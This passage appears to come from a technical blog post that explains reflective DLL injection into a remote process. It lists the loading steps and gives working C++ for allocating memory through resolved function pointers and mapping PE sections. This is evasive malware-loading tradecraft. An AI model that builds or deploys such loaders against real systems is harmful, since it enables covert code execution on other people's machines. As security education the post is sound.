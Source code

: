 In the memory of the remote process it will look somehow like this: 

{{< rawhtml >}}
  <img src=/Untitled%208.png class="center">
{{< /rawhtml >}}

Now that the ******************************************************DLL found itself in memory****************************************************** we can start with the actual process of loading: 

- Mapping sections in the Virtual Memory
- Fixing the Import Address Table (IAT)
- Adjust the Base Relocation table
- Assign correct memory protection to any Virtual Sections
- Flushing CPU instructions cache
- Running the DllMain entry point 💣

As I mentioned before the bytes that we wrote in the remote process are RAW bytes. In order for the DLL to be executed in memory, its bytes needs to be mapped at specific virtual addresses: 

```cpp
//retrieving pointer to header we need
PIMAGE_OPTIONAL_HEADER pImgOptHdr = (PIMAGE_OPTIONAL_HEADER)((ULONG_PTR)pImgNtHdrs + sizeof(DWORD) + sizeof(IMAGE_FILE_HEADER));
ImgFileHdr = pImgNtHdrs->FileHeader;
/*--------------COPY SECTIONS IN MEMORY---------------------------*/
    
  //allocating memory for the PE in memory using the VA function pointer retrieved
  //using the custom implementation of GetProcAddress/GetModuleHandle
  if ((pebase = (PBYTE)VA(NULL, pImgOptHdr->SizeOfImage, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) == NULL)
        return FALSE;
    
  //allocate memory for an array of SECTION HEADERS
  peSections = (PIMAGE_SECTION_HEADER*)custom_malloc((sizeof(PIMAGE_SECTION_HEADER) * ImgFileHdr.NumberOfSections), VA);
  if (peSections == NULL)
        return FALSE;  
  //save pointers to sections inside the array of section headers
  for (int i = 0; i < ImgFileHdr.NumberOfSections; i++) {    
       peSections[i] = (PIMAGE_SECTION_HEADER)(((PBYTE)pImgNtHdrs) + 4 + 20 + ImgFileHdr.SizeOfOptionalHeader + (i * IMAGE_SIZEOF_SECTION_HEADER));
  }
  //copying the RAW data in the desired VirtualAddress
  for (int i = 0; i < ImgFileHdr.NumberOfSections; i++) {
       custom_memcpy(
           (PVOID)(pebase + peSections[i]->VirtualAddress),// Destination
           (PVOID)(dllBaseAddress + peSections[i]->PointerToRawData),// Source
           peSections[i]->SizeOfRawData// Size
       );
   }
```

Once the sections are in-memory at the correct Virtual Address, **all the RVA start to have some meaning.** Hence here we can start fixing the [Import Directory](https://0xrick.github.io/win-internals/pe6/) = ********************************************************************go through the list of the DLL that our Reflective DLL needs to operate at full capabilities, import them and adjust the RVA of every function based on the location we got in memory.******************************************************************** Basically transforming all the RVAs in VAs (VA = ImageBase + RVA). 
